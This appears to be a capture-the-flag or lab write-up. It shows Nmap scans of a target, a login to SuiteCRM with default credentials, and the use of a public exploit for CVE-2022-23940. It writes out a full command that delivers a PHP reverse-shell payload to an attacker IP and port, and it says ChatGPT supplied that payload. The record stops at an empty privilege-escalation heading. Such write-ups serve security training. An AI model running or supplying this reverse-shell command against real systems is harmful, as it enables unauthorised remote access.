









Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.155.146
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-02 15:35 IST
Warning: 192.168.155.146 giving up on port because retransmission cap hit (6).
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 192.168.155.146
Host is up (0.74s latency).
Not shown: 59443 closed tcp ports (reset), 6088 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 86.85 seconds
```
```sh
nmap -sC -sV -T4 -Pn -p 22,80,3306,33060 192.168.155.146   
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-02 15:37 IST
Nmap scan report for 192.168.155.146
Host is up (0.099s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx  MySQL X protocol listener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.21 seconds
```

Visiting web server on port 80.

Logged in with default creds `admin : admin`

On the upper right corner, I clicked on the admin user and checked the “about” page which consists of the version of CRM Suite :


The next thing is googling for a suitable exploit for the given version of SuiteCrm and I found the following :
https://github.com/manuelz120/CVE-2022-23940

We tried generating single liner php reverse shell but we got multiple errors because of quoting.

So we used chatgpt and it gave us clean payload.
```python
python3 exploit.py -h http://192.168.166.146 -u admin -p admin --payload 'php -r '\''$sock=fsockopen("192.168.45.222",4444);exec("/bin/sh -i <&3 >&3 2>&3");'\'''
```

### Privilege Escalation




